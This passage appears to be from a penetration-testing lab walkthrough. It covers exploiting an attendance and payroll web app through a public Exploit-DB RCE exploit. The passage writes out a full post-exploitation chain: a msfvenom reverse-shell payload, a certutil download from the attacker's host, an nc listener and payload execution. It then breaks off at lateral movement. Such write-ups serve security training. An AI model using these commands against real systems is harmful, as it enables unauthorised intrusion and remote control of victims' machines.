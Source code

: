 **Let me check is there any public exploit for the attendance and payroll site on Port 81:**

**Searching for public exploit:** 
![[Pasted image 20240602132338.png]]
So we have two exploits, will try first one.
Here is the link for first exploit:[[https://www.exploit-db.com/exploits/50801]] 

**Initially I ran the code but it doesn't work:**
![[Pasted image 20240602132705.png]]

**So inspected the code again i and found the Problem:**
![[Pasted image 20240602132843.png]]
This is the problematic area, where the url points **/apsystem/admin/employee_edit_photo.php**
Because we don't see the **"appsystem"** in the directory traversal enumeration as well.

**I have checked that the path is valid or not by entering "appsystem" in the url:** 404 Not found is the result.
![[Pasted image 20240602133144.png]]

**But /admin works:**
![[Pasted image 20240602133240.png]]

**Hence we need to remove appsystem from the code and proceed:****
![[Pasted image 20240602133407.png]]

Now the exploit work..! we can do RCE now
![[Pasted image 20240602133446.png]]

Now we have a shell, kindaaa...
We need a Proper shell to enumerate further, will download the reverse shell payload using the RCE, For that will host a python web server as alwayzzzzz.
```
python3 -m http.server 80
```
![[Pasted image 20240602134100.png]]

**Now will generate a payload for a windows system using MSFVENOM:**

```
msfvenom -p windows/x64/shell_reverse_tcp  192.168.45.177 LPORT=443 -f exe -o met.exe
```

![[Pasted image 20240602134240.png]]

**Its ready now... letzzz transfer this to the windows system using Certutil funtion:**
Run the following command in the RCE shell
```
certutil -urlcache -f http://192.168.45.177/met.exe c:/windows/temp/met.exe
```

![[Pasted image 20240602134644.png]]
![[Pasted image 20240602134705.png]]

**Now we have to trigger that payload before that wee need to setup out Netcat listener on our kali machine**
```
rlwrap nc -nvlp 443
```

**To trigger the payload will you the following command in the RCE shell:**
```
C:\windows\temp\met.exe
```

![[Pasted image 20240602135139.png]]

![[Pasted image 20240602135210.png]]
Got it......! We are in a proper interactive shell.

Ok Now will go to Lateral Movement